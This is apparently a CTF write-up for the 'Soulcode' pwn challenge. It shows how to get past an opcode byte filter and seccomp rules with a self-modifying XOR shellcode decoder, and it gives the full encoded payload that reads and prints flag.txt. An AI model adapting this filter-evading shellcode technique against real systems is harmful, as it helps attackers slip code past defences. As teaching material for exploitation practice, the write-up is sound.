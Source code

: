 ```yaml
---
title: Soulcode
date: 2023-06-05T23:11:16+03:00
author: sunbather
tags:
  - pwn
---
```

# Soulcode

The challenge consisted of bypassing various filters to run a shellcode. 

## Main function decompiled


```c
bool main(void)

{
  int iVar1;
  long lVar2;
  undefined8 *puVar3;
  byte bVar4;
  undefined8 local_208;
  undefined8 local_200;
  undefined8 local_1f8 [62];
  
  bVar4 = 0;
  puts("Before you leave the realm of the dead you must leave a message for posterity!");
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_208 = 0;
  local_200 = 0;
  puVar3 = local_1f8;
  for (lVar2 = 0x3c; lVar2 != 0; lVar2 = lVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + (ulong)bVar4 * -2 + 1;
  }
  *(undefined4 *)puVar3 = 0;
  read_string(&local_208,500,(undefined4 *)((long)puVar3 + 4)); // READ SHELLCODE FROM USER
  filter(&local_208,4);                                         // FILTER BAD OPCODES
  iVar1 = install_syscall_filter();                             // FILTER BAD SYSCALLS
  if (iVar1 == 0) {
    (*(code *)&local_208)();                                    // RUN SHELLCODE
  }
  return iVar1 != 0;
}
```

You can determine the 3 distinct, important steps that the program does:
1. Read shellcode from user.
2. Filter bad opcodes using the ``filter()`` function.
3. Filter bad syscalls using seccomp in ``install_syscall_filter()``.
4. Run shellcode.

The idea of the challenge was trying to bypass these filters. The forbidden opcodes/bytes were: ``0xCD``, ``0x80``, ``0x0F``, ``0x05``, ``0x89``.

Using ``seccomp-tools dump ./soulcode`` (tool: [seccomp-tools](https://github.com/david942j/seccomp-tools)), we can determine the seccomp-filters are:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```
WARNING: The tool runs the executable, don't use with malware!!!

We can see the only syscalls we are allowed are ``open``, ``read``, ``write`` and ``exit``. This is enough to guess that we might have a ``flag.txt`` in the same directory and try to write its contents to stdout. The alternative to the tool was manually reading the ``install_syscall_filter()`` function and determining the filters, which sucks and nobody wants to do it.


## The solution

Our initial thought was that we have to bypass the forbidden opcodes. We didn't check the opcodes meaning, as there could have been a big number of instructions that containted them. So instead, we thought we can write a shellcode encrypter/decrypter that can decrypt a payload and run it. By having an encrypted payload we can use an arbitrary number of "forbidden" bytes and we only have to care to use permitted bytes in the code for the decrypter. During the CTF, we have taken the liberty to use an encrypter/decrypter (or encoder/decoder) found online, after modifying to fit the situation.

Credits to ired.team for most of the shellcode encoder/decoder: https://www.ired.team/offensive-security/code-injection-process-injection/writing-custom-shellcode-encoders-and-decoders

The interesting additions to the encoder is the ``xor_op`` label - the xorb operation we used there had a ``0x80`` byte in it, which is forbidden. To avoid that we substract one from the byte and then we add one at the beginning of the encoder, at runtime. This will pass the filters succesfully. Also, the encryption key ``0xc``, is picked with trial and error after checking for forbidden bytes after encryption.  

```asm
.global _start
.intel_syntax noprefix
_start:
	# deobfuscate xor_op
	xor rsi, rsi
	movb sil, [rip+xor_op+1]
	inc sil
	movb [rip+xor_op+1], sil
	jmp short shellcode

decoder:
	pop rax                 # store encodedShellcode address in rax - this is the address that we will jump to once all the bytes in the encodedShellcode have been decoded

setup:
	xor rcx, rcx            # reset rcx to 0, will use this as a loop counter
	mov rdx, 95

decoderStub:
	cmp rcx, rdx            # check if we've iterated and decoded all the encoded bytes
	je encodedShellcode     # jump to the encodedShellcode, which actually now contains the decoded shellcode

	# encodedShellcode bytes are being decoded here per our decoding scheme
	xor rdi, rdi
	movb dil, [rax]
	xor_op: .byte 0x40, 0x7f, 0xf7, 0x0c # obfuscated xor op
	movb [rax], dil

	inc rax                 # point rax to the next encoded byte in encodedShellcode
	inc rcx                 # increase loop counter
	jmp short decoderStub   # repeat decoding procedure

shellcode:
	call decoder            # jump to decoder label. This pushes the address of encodedShellcode to the stack (to be popped into rax as the first instruction under the decoder label)
	encodedShellcode: .byte 0x44, 0xcb, 0xcc, 0xe, 0xc, 0xc, 0xc, 0x44, 0x81, 0x31, 0x3a, 0xc, 0xc, 0xc, 0x44, 0x3d, 0xfa, 0x44, 0x3d, 0xde, 0x3, 0x9, 0x44, 0x85, 0xcb, 0x44, 0x3d, 0xcc, 0x44, 0x85, 0xea, 0x44, 0xcb, 0xce, 0x4c, 0xc, 0xc, 0xc, 0x3, 0x9, 0x44, 0xcb, 0xcc, 0xd, 0xc, 0xc, 0xc, 0x44, 0xcb, 0xcb, 0xd, 0xc, 0xc, 0xc, 0x3, 0x9, 0x44, 0xcb, 0xcc, 0x30, 0xc, 0xc, 0xc, 0x44, 0x3d, 0xf3, 0x3, 0x9, 0x6a, 0x60, 0x6d, 0x6b, 0x22, 0x78, 0x74, 0x78, 0xc
```

The encoded shellcode/payload is simply open ``flag.txt``, read and write to stdout, then exit:

```asm
.global _start
.intel_syntax noprefix
_start:
open:
	mov rax, 0x2
	lea rdi, [rip+flag]
	xor rsi, rsi
	xor rdx, rdx
	syscall

read:
	mov rdi, rax
	xor rax, rax
	mov rsi, rsp
	mov rdx, 0x40
	syscall

write:
	mov rax, 0x1
	mov rdi, 0x1
	syscall

exit:
	mov rax, 0x3c
	xor rdi, rdi
	syscall


flag:
	.string "flag.txt"
```

Then we get the shellcode for everything (check out [getsc](https://github.com/dothidden/tools/blob/main/pwn/getsc)) and we end up with the following payload:  
``\x48\x31\xf6\x40\x8a\x35\x23\x00\x00\x00\x40\xfe\xc6\x40\x88\x35\x19\x00\x00\x00\xeb\x25\x58\x48\x31\xc9\x48\xc7\xc2\x5f\x00\x00\x00\x48\x39\xd1\x74\x1a\x48\x31\xff\x40\x8a\x38\x40\x7f\xf7\x0c\x40\x88\x38\x48\xff\xc0\x48\xff\xc1\xeb\xe6\xe8\xd6\xff\xff\xff\x44\xcb\xcc\x0e\x0c\x0c\x0c\x44\x81\x31\x3a\x0c\x0c\x0c\x44\x3d\xfa\x44\x3d\xde\x03\x09\x44\x85\xcb\x44\x3d\xcc\x44\x85\xea\x44\xcb\xce\x4c\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x0d\x0c\x0c\x0c\x44\xcb\xcb\x0d\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x30\x0c\x0c\x0c\x44\x3d\xf3\x03\x09\x6a\x60\x6d\x6b\x22\x78\x74\x78\x0c``

We then run the payload:  
```
$ echo -ne "\x48\x31\xf6\x40\x8a\x35\x23\x00\x00\x00\x40\xfe\xc6\x40\x88\x35\x19\x00\x00\x00\xeb\x25\x58\x48\x31\xc9\x48\xc7\xc2\x5f\x00\x00\x00\x48\x39\xd1\x74\x1a\x48\x31\xff\x40\x8a\x38\x40\x7f\xf7\x0c\x40\x88\x38\x48\xff\xc0\x48\xff\xc1\xeb\xe6\xe8\xd6\xff\xff\xff\x44\xcb\xcc\x0e\x0c\x0c\x0c\x44\x81\x31\x3a\x0c\x0c\x0c\x44\x3d\xfa\x44\x3d\xde\x03\x09\x44\x85\xcb\x44\x3d\xcc\x44\x85\xea\x44\xcb\xce\x4c\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x0d\x0c\x0c\x0c\x44\xcb\xcb\x0d\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x30\x0c\x0c\x0c\x44\x3d\xf3\x03\x09\x6a\x60\x6d\x6b\x22\x78\x74\x78\x0c" | ./soulcode 
Before you leave the realm of the dead you must leave a message for posterity!
DANTE{.hidden_is_the_best}
�%XH1�H��_H9�t�H1�@�8@��
                        @�8H��H�
```
